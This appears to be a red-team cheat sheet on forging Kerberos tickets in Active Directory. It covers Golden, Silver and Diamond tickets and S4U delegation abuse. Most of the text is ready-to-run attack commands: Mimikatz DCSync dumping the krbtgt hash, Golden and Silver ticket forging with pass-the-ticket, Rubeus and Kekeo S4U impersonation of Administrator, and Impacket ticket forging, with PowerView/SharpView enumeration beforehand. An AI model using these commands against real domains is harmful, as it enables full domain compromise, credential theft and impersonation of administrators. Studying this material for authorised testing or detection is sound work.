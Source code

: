 ## 🎭 **AT-A-GLANCE: ADVANCED ESSENTIALS**

**Reveals:** Ticket manipulation capability, KRBTGT/service hash usage, S4U feasibility.

**Use Cases:** Domain compromise (Golden), service‑scoped access (Silver), stealth escalation (Diamond), CD/RBCD chaining.

**Speed:** Stealth: minimal, spaced actions; Lab: full workflows.

## 🧭 **PIVOT MATRIX: STRATEGIC NEXT STEPS**

| Finding | Pivot | Goal | Tool/Technique |
|---------|-------|------|----------------|
| KRBTGT hash in hand | Golden Ticket | Domain‑wide access | Mimikatz/Rubeus |
| Service account hash | Silver Ticket | Service scope access | Mimikatz/Rubeus |
| Legit TGT + krbtgt | Diamond Ticket | Stealth escalation | Mimikatz/Rubeus |
| CD/RBCD edges | S4U2Self/Proxy | File/DC access | Rubeus/Kekeo |

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `klist`, `nltest /dsgetdc:<domain>`, `wevtutil` — ticket/DC/event sanity
- `Get-ADUser`, `Get-ADComputer`, `Get-ADDomain` — context verification

### ⚔️ Offensive (PowerView/SharpView)
```powershell
Get-Domain
Get-DomainTrust
Get-DomainUser -SPN | Select -First 10
Get-DomainComputer -TrustedToAuth
Get-DomainObject -LDAPFilter '(msDS-AllowedToActOnBehalfOfOtherIdentity=*)'
```
```cmd
SharpView.exe Get-DomainTrust
SharpView.exe Get-DomainComputer -TrustedToAuth
```

### 🔴 Advanced Red Team (Golden/Silver/Diamond/S4U)
```cmd
:: Mimikatz
mimikatz "lsadump::dcsync /user:krbtgt /domain:corp.local" exit
mimikatz "kerberos::golden /user:Administrator /domain:corp.local /sid:<SID> /krbtgt:<HASH> /ptt" exit
mimikatz "kerberos::golden /user:Administrator /domain:corp.local /sid:<SID> /target:FILE01 /service:CIFS /rc4:<HASH> /ptt" exit

:: Rubeus
Rubeus.exe golden /rc4:<krbtgt_hash> /domain:corp.local /sid:<SID> /user:Administrator /ptt
Rubeus.exe s4u /user:svc_web /rc4:<hash> /impersonateuser:Administrator /msdsspn:http/web01.corp.local /ptt
Rubeus.exe renew /ticket:<base64>
Rubeus.exe purge

:: Kekeo
kekeo.exe tgt::ask /user:svc /domain:corp.local /rc4:<hash>
kekeo.exe tgs::s4u /user:svc /service:cifs/filesrv.corp.local /impersonate:Administrator

:: Impacket
ticketer.py -domain corp.local -aesKey <krbtgt_aes> -spn CIFS/filesrv.corp.local forged
```